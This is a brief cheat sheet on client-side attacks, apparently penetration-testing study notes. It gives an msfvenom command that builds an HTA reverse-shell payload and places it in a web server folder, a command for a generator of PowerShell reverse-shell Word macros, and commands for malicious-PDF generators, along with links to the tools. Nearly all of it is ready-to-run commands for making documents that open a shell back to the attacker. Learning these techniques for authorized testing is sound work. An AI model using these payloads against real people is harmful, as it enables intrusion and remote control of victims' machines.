 # Client-Side Attacks
## HTA Attack in Action

-> Get web browser name, operating system, device type  
- https://explore.whatismybrowser.com/useragents/parse/#parse-useragent

-> Creating a malicious .hta with msfvenom
```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o /var/www/html/evil.hta
```

## Microsoft Word Macro Attack
-> Generate a malicious macro for reverse shell in powershell using base64 for .doc
```bash
python evil_macro.py -l <ip> -p <port> -o macro.txt
```
- https://github.com/rodolfomarianocy/Evil-Macro/

## Malicious PDF
-> Malicious PDF Generator
```bash
python3 malicious-pdf.py burp-collaborator-url
```
- https://github.com/jonaslejon/malicious-pdf

-> evilpdf  
- https://github.com/superzerosec/evilpdf

